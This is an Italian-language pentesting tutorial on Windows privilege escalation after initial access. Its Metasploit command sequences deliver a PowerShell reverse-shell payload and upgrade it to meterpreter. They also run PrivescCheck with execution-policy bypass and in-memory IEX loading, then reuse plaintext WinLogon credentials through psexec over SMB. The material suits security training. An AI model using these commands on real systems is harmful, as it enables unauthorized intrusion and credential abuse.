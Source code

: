 
# Windows Privilege Escalation Vulnerabilities
Nel momento in cui abbiamo exploitato un servizio e quindi abbiamo ottenuto accesso ad un sistema, probabilmente ci ritroveremo con un utente con pochi privilegi e quindi avremo bisogno di elevare i nostri privilegi. <br>
Per poter elevare i prvilegi, ogni procedimento é diverso in base al sistema target, ma il concetto principale é quello di identificare delle vulnerabilitá interne che ci permettano di Procedere con questo passaggio. <br> 

Esiste un tool chiamato `PrivescCheck` su <a href="https://github.com/itm4n/PrivescCheck">GitHub</a> che permette di enumerare le piú comuni configurazioni deboli che possono permetterci di elevare i nostri privilegi. <br>
Per poter eseguire lo script, abbiamo bisogno di trasferirlo nel target per poi eseguirlo sul target stesso: 
```bash
use exploit/multi/script/web_delivery          # modulo per hostare un web server per trasferire un payload
set TARGET PSH\ (Binary)                       # impostiamo il target su powershell 
set payload windows/shell/reverse_tcp
set PSH-EncodedCommand false
set LHOST eth1
# verrà generato del codice PoweShell che dovremo copiare ed incollare in una shell sul sitema target windows
background
use post/multi/manage/shell_to_meterpreter
set LHOST eth1
set LPORT <DIFFPORT>
set SESSION 1
show adbanced
set WIN_TRANSFER VBS
run
# ottenendo una sessione meterpreter
```

ora che abbiamo ottenuto una sessione meterpreter sulla macchina, possiamo trasgerire la cartella del tool PrivescCheck sul target e spostarci al suo interno. <br> 
l'esecuzione del tool dipende dal tipo di shell che abbiamo ottenuto
```cmd
:: shell cmd
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```
```cmd
:: shell PowerShell
set-ExecutionPolicy Bypass -scope process -Force
. .\PrivescCheck.ps1; Invoke-PrivescCheck
```
```cmd
:: shell PowerShell senza modificare la Execution Policy
Get-Content .\PrivescCheck.ps1 | Out-String | IEX
Invoke-PrivescCheck
```
Otterremo cosí numerose informazioni sul sistema che potremmo sfruttare per elevare i nostri privilegi. <br> 
Se dovessimo trovare una vulnerabilitá nelle credenziali di WinLogon, essere verranno mostrate in chiaro e quindi possiamo usarle per poter elevare i nostri privilegi inserendole su PsExec e collegarci al sistema target via smb. 
```bash
use exploit/windows/smb/psexec
set USERNAME <user>
set PASSWORD <password>
run
```
